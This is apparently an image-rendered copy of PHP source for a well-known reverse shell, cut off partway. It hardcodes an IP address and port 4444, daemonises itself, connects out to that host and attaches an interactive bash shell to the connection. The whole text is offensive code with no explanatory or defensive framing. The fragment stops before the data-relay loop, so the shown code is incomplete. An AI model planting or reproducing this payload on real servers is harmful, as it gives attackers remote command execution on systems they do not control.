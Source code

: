 ```php

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.8';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
```